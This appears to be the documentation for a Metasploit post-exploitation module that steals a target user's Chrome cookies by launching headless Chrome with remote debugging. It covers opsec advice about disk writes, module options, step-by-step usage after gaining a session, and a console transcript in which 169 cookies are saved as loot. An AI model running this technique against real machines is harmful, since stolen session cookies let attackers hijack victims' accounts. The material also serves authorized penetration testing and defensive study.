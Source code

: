 ## Gather Chrome Cookies

Reads all cookies from the Default Chrome Profile on the target machine. Uses [Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) and [Chrome's Remote Debugging](https://chromedevtools.github.io/devtools-protocol/).

## Opsec

### Disk writes
This writes randomly-named files to disk temporarily. You may want to consider the tradeoff between getting the user's Chrome cookies and the noisiness of writing to disk.

The module writes a random 10-15 character file containing HTML to a directory you can specify via `WRITABLE_DIR`.

### Running processes
On non-Windows non-meterpreter sessions, a headless Chrome process will be left running after module execution is completed. You can still find and kill this process manually after the module execution is completed.

## Vulnerable Application

This module works on Chrome 59 or later on all operating systems. This module has been tested on Windows, Linux, and OSX.

Chrome does not need to be running on the target machine for this module to work.

## Verification Steps

  1. Obtain a session on the target machine
  2. Do: ```use post/multi/gather/chrome_cookies```
  3. Do: ```set SESSION <your session ID>```
  4. Do: ```run```
  5. The current user's Chrome cookies will be stored as loot

## Options

  **CHROME_BINARY_PATH**

  The path to the user's Chrome binary. On Linux this defaults to searching for `google-chrome` in `$PATH`. On macOS, this defaults to `/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'`. If the module doesn't find any cookies, it may be that a different Chrome binary to the one the user normally uses is being run. In that case, you can change the Chrome binary executed with this option.

  **WRITABLE_DIR**

  Directory used to write temporary files.

  Two files are written, with random 10-15 character alphanumeric filenames. One file contains an html file for Chrome and the other is where the cookies are saved. Both files are deleted during cleanup.

  **REMOTE_DEBUGGING_PORT**

  Port to tell Chrome to expose Remote Debugging on. Default is the normal remote debugging port, `9222`.

## Scenarios

### Windows

  Suppose you've got a session on the target machine.

  To extract the target user's Chrome cookies

```
msf > use post/multi/gather/chrome_cookies
msf post(multi/gather/chrome_cookies) > options

Module options (post/multi/gather/chrome_cookies):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CHROME_BINARY_PATH                      no        The path to the user's Chrome binary (leave blank to use the default for the OS)
   REMOTE_DEBUGGING_PORT  9222             no        Port on target machine to use for remote debugging protocol
   SESSION                1                yes       The session to run this module on.
   WRITEABLE_DIR                           no        Where to write the html used to steal cookies temporarily, and the cookies. Leave blank to use the default for the OS (/tmp or AppData\Local\Temp)

msf post(multi/gather/chrome_cookies) > set session <your session id>
session => <your session id>

msf post(multi/gather/chrome_cookies) > run

[*] Determining session platform
[*] Platform: windows
[*] Type: meterpreter
[*] Activated Chrome's Remote Debugging (pid: 9452) via "\Program Files (x86)\Google\Chrome\Application\chrome.exe" --window-position=0,0 --enable-logging --v=1 --disable-translate --disable-extensions --disable-background-networking --safebrowsing-disable-auto-update --disable-sync --metrics-recording-only --disable-default-apps --mute-audio --no-first-run --disable-web-security --disable-plugins --disable-gpu  --user-data-dir="\Users\msfdev\AppData\Local\Google\Chrome\User Data"  --remote-debugging-port=9222  \Users\msfdev\AppData\Local\Temp\YaW8HKZdkk2s85D.html
[+] Found Match
[+] 169 Chrome Cookies stored in /home/msfdev/.msf4/loot/20190108065112_default_172.22.222.200_chrome.gather.co_082863.txt
[*] Removing file \Users\msfdev\AppData\Local\Temp\YaW8HKZdkk2s85D.html
[*] Removing file \Users\msfdev\AppData\Local\Google\Chrome\User Data\chrome_debug.log
[*] Post module execution completed
msf post(multi/gather/chrome_cookies) >

```

## Future features

### Profiles
This module only extracts cookies from the default Chrome profile. The target may have multiple, and you may which to extract cookies from all of them. This would require enumerating and extracting the profiles by name. Example code to extract cookies from a non-default Chrome profile can be found at https://github.com/defaultnamehere/cookie_crimes.

## See also
See https://github.com/defaultnamehere/cookie_crimes for more information and manual instructions for Windows.

See https://mango.pdf.zone/stealing-chrome-cookies-without-a-password for the blog post in which this technique was first published.
